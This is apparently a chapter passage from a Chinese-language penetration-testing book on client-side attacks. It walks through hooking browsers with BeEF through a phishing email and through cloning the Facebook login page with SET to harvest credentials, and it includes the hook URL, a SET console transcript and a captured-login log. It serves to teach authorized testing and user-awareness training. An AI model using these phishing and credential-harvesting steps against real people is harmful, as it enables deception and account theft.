
客户端攻击变得越来越流行，因为它们有效，而且效果很好。它们利用了当前使用的客户端-服务器架构。这些客户端或终端运行完整的操作系统，并运行各种类型的应用程序。操作系统以及这些客户端上包含的应用程序都存在漏洞。这体现了补丁管理的重要性。

客户端攻击以不同的方式利用这些漏洞。在下面的示例中，我们使用 BeEF 来利用基于浏览器的攻击。然而，这并不是唯一的方法。你可以通过电子邮件或其他方法将文件放到机器上，以利用客户端的 Java 或 Adobe Reader，从而从该机器获取你想要的任何东西，或者在以后将其用于其他目的进行控制。选择权在你手中，这就是为什么不要忽视客户端攻击很重要。

## 使用 BeEF 进行基于浏览器的利用

用于钓鱼攻击的最佳工具之一是 BeEF。BeEF 利用网络浏览器中发现的弱点进行客户端攻击。这些攻击劫持网络浏览器并将其用作桥头堡，以便直接攻击主机。这是一种非常简单的攻击，因为欺骗用户通常很容易。它表明确保浏览器已修补并保持最新非常重要。

BeEF 可以归入许多类别，但我认为它是一种利用工具，这也是我在实验室中使用它的方式。BeEF 是渗透测试人员非常流行的工具，因为它为我们提供了另一个测试向量；它超越了边界安全，并且不需要我们对终端目标更改任何安全或设置。它也是一个非常好的工具，可以通过查看谁点击了哪些虚假链接来测试用户对各种社会工程任务的反应。

BeEF 主要通过浏览器驱动，因此从 CLI 运行 beef-xss 将启动 BeEF，但其余配置将通过 Web 界面完成。再次说明了此工具使用起来有多么容易。

要在 CLI 上启动 BeEF，你需要进入 `/usr/share/beef-xss` 目录，并运行脚本 `./beef`。这将为你创建所有必要的绑定和监听器：



一旦 BeEF 启动并运行，你可以通过以下 URL 在端口 3000 上连接它：

```
http://YOURBEEFSERVER:3000/ui/panel
```

**用户名：** beef
**密码：** beef

这是主 BeEF 登录屏幕的截图，使用了前面给出的默认登录信息：



对于 BeEF 来说，一切都在于钩子。为了进入远程客户端的计算机，他们需要点击一个会“hook”他们并将他们与我们的 BeEF 服务器连接起来的链接。BeEF 附带了一个示例钩子。它的位置在 http://YOURBEEFSERVER:3000/hook.js。我们的任务是让人们点击它。为此，我将为用户设置一封虚假的电子邮件供他们点击。这将涉及我创建一封电子邮件并将其发送给公司。

```
http://YOURBEEFSERVER:3000/hook.js
```


这正是管理层支持和认可至关重要的地方。我将向每个人发送一个恶意链接，任何点击它的人都将被我攻破。现在由于这是一次测试，我只会记录谁点击了该链接。这样我就可以在参与结束时将电子邮件和网络安全培训作为交付成果的一部分提出建议。

我的示例电子邮件将简单直接；然而，它仍然需要欺骗用户点击链接。为此，我将起草一封关于即将举行的公司活动的逼真电子邮件，但链接不会指向签到表，而是指向 BeEF 服务器页面，这将“hook”他们。

这是我将发送给公司的电子邮件。你会看到链接指向我的 BeEF 服务器：



此链接将返回到我的 BeEF 服务器的 picnic.html 页面。发送电子邮件后，就只剩下等待了。随着用户点击此链接并被钩住到我的 BeEF 服务器，我将开始看到我的 BeEF 控制台因已被钩住的浏览器而亮起。让我们看看用户被钩住后我的 BeEF 控制台：



使用 **在线浏览器**，如果你选择一个主机，你可以看到可以针对该主机使用的所有模块。在以下示例中，我想检测是否有任何活跃的社交媒体网站。这不仅会显示哪些用户在工作时间使用社交媒体网站，更重要的是它会让我知道他们是否已连接，这样我就可以潜在地窃取他们的凭据。以下截图显示有一个活跃的网站：



## 使用 SET 进行客户端利用

SET 是一款专为创建基于社会工程的攻击向量而设计的工具。SET 可以非常快速地创建自定义攻击。你可以创建恶意有效载荷、QRcode-based 攻击和 Powershell 攻击等等。你甚至可以在本地启动浏览器，创建恶意代码，并使用 Metasploit 进行投递。我将设置一个虚假网站，并在用户以为他们正在登录时窃取其凭据。我将向你展示它使用起来有多容易，以及为什么它是测试用户时我最喜欢的工具：

- 1. 我们要做的第一件事是启动 SET：



- 2. 从主菜单，有许多可用选项。由于我想创建 **社会工程攻击**，我将选择选项 1。一定要探索这个强大工具中的其他选项：



- 3. 从这里，我将选择选项 2。我使用此选项是因为我计划对用户使用网站攻击来破坏其终端：



- 4. 由于我将使用凭据收割，我将选择选项 3。这样获取用户的用户名和密码比尝试猜测或破解它们更容易。

- 5. 对于下一个选项，我将选择选项 2，即 Site Cloner。我想确保我给用户一个他们会登录的页面。我需要让它尽可能真实：

```
set:webattack>2
[-] Credential harvester will allow you to utilize the clone capabilities within SET
[-] to harvest credentials or parameters from a website as well as place them into a report
[-] This option is used for what IP the server will POST to.
[-] If you're using an external IP, use your external IP for this
set:webattack> IP address for the IP back in Harvester/Tabnabbing:192.168.33.27
[-] SET supports both HTTP and HTTPS
[-] Example: http://www.thisisafakesite.com
set:webattack> Enter the url to clone:https://www.facebook.com/login.php
[*] Cloning the website: https://login.facebook.com/login.php
[*] This could take a little bit...
The best way to use this attack is if username and password form
fields are available. Regardless, this captures all POSTs on a website.
[*] Apache is set to ON - everything will be placed in your web root directory of apache.
[*] Files will be written out to the root directory of apache.
[*] ALL files are within your Apache directory since you specified it to ON.
Apache webserver is set to ON. Copying over PHP file to the website.
Please note that all output from the harvester will be found under apache_dir/harvester_date.txt
Feel free to customize post.php in the /var/www/html directory
[*] All files have been copied to /var/www/html
[*] SET is now listening for incoming credentials. You can control-c out of this and completely still keep the attack going.
[*] All files are located under the Apache web root directory: /var/www/html
[*] All fields captures will be displayed below.
[Credential Harvester is now listening below...]
```

- 6. 由于我正在克隆一个页面，有一些选项我需要输入。我首先需要指定我的 SET 盒子的 IP 地址。然后，我输入我想要克隆的站点。在这种情况下，我选择使用 Facebook 登录页面，因为每个人都喜欢 Facebook。输入该站点后，SET 将克隆该站点并在准备就绪并等待连接和凭据时通知我。

- 7. 在这一点上，我只需要向用户发送恶意链接。这通过电子邮件非常容易做到。一旦用户点击电子邮件中的链接，它将把他们重定向到我的站点，如下所示：



8. 它看起来与实际页面非常相似。如果用户登录到假页面，我将在我的服务器上按如下方式记录他们的信息：

```
('Array\n',)
('site' => http://beefproject.com
('blog' => http://blog.beefproject.com
('lsd' => AVPal...)
[display] => \n',
[enable_profile_selector] => \n',
[isprivate] => \n',
[legacy_return] => 0\n',
[profile_selector_ids] => \n',
[return_session] => \n',
[skip_api_login] => \n',
[signed_next] => \n',
[try_num] => 1\n',
[time_zone] => 300\n',
[lngmid] => eyl3j...\n',
[lqnrnd] => 201107 -V-E\n',
[lqnsj] => 1486181780\n',
[email] => pentester@hackme.com\n',
[pass] => CanYouReadMe\n',
[qsstamp] => Wltb...\n',
('\n',)
```

正如你所见，我已经捕获了该社交媒体网站用户的电子邮件地址和密码。与尝试破解密码或猜测密码相比，这样的过程非常简单。



用户方面的好处是，当他们登录失败时，实际上会被重定向到原始站点。然后他们可以登录，并且会成功。用户只会认为自己输入了错误的电子邮件和密码，但实际上，他们把所有信息都给了我。

由于我正在为利益相关方进行渗透测试，我将记录所有连接到此站点并登录的用户。他们需要接受社会工程学培训，以确保能够识别这些不良链接和站点，并且不会如此轻易地泄露自己的凭证。

## 总结

在第4天结束时，让我们回顾一下我们所做的工作。第4天的目标主要是使用我们选择的漏洞扫描器 OpenVAS 开始探测环境是否存在漏洞。使用 OpenVAS，我们能够创建一次计划扫描，设置所有所需变量，扫描完成后，如果发现严重程度大于5的漏洞，就会向我发送电子邮件。这是一种节省时间的好方法。

然后我们进入 Metasploit，尝试利用在漏洞扫描期间发现的一些漏洞。这使我能够验证漏洞扫描中包含的发现是否属实。验证很重要，因为我们希望确保记录的是真正存在漏洞的地方，而不是误报。

最后，我们还想使用 BeEF 以及 SET 执行一些社会工程测试，以利用一些基于浏览器的安全漏洞。社会工程是渗透测试中的一个重要阶段，因为用户通常是最薄弱的环节。

在第5章《流量嗅探与欺骗》中，我们将重点关注流量嗅探技术和欺骗。这将包括使用不同的流量嗅探工具，以及了解如何优化我最喜欢的流量嗅探工具 tcpdump。最后，我们将介绍欺骗工具和技术，这些工具和技术将使我们能够执行一些中间人（MiTM）攻击。
